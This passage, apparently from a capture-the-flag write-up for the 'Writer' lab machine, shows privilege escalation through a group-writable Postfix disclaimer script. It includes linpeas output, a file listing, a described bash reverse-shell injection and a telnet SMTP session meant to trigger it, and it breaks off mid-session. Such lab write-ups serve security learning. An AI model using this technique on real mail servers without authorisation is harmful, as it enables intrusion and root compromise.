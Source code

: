 ```bash
[!] Spool dir is not writable
```

Well, it doesn't work. Again started linpeas:

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                                                                 
  Group kyle:                                                                                                                                                                                                                                
                                                                                                                                                                                                                                             
  Group filter:
/etc/postfix/disclaimer
```

That's strange and it is again about postfix. Look inside:

```bash
kyle@writer:/etc/postfix$ ls -la
total 140
drwxr-xr-x   5 root root    4096 Jul  9 10:59 .
drwxr-xr-x 102 root root    4096 Jul 28 06:32 ..
-rwxrwxr-x   1 root filter  1021 Aug 17 18:56 disclaimer
-rw-r--r--   1 root root      32 May 13 22:49 disclaimer_addresses
-rw-r--r--   1 root root     749 May 13 22:40 disclaimer.txt
-rw-r--r--   1 root root      60 May 13 22:27 dynamicmaps.cf
drwxr-xr-x   2 root root    4096 Jun 19  2020 dynamicmaps.cf.d
-rw-r--r--   1 root root    1330 May 18 19:41 main.cf
-rw-r--r--   1 root root   27120 May 13 22:27 main.cf.proto
lrwxrwxrwx   1 root root      31 May 13 22:27 makedefs.out -> /usr/share/postfix/makedefs.out
-rw-r--r--   1 root root    6373 Aug 17 18:56 master.cf
-rw-r--r--   1 root root    6208 May 13 22:27 master.cf.proto
-rw-r--r--   1 root root   10268 Jun 19  2020 postfix-files
drwxr-xr-x   2 root root    4096 Jun 19  2020 postfix-files.d
-rwxr-xr-x   1 root root   11532 Jun 19  2020 postfix-script
-rwxr-xr-x   1 root root   29872 Jun 19  2020 post-install
drwxr-xr-x   2 root root    4096 Jun 19  2020 sasl
```

So, the file disclaimer has permissions RWX and we have a group filter. Okay, it contains bash script. First thing that you can think is to inject bash reverse shell. Did it and started pspy64, but it seems postfix doesn't send a message...Let's force it to send.

Trying to send with telnet:

```bash
kyle@writer:/etc/postfix$ telnet localhost smtp
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
220 writer.htb ESMTP Postfix (Ubuntu)
ehlo writer.htb
250-writer.htb
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
mail from: kyle@writer.htb
```
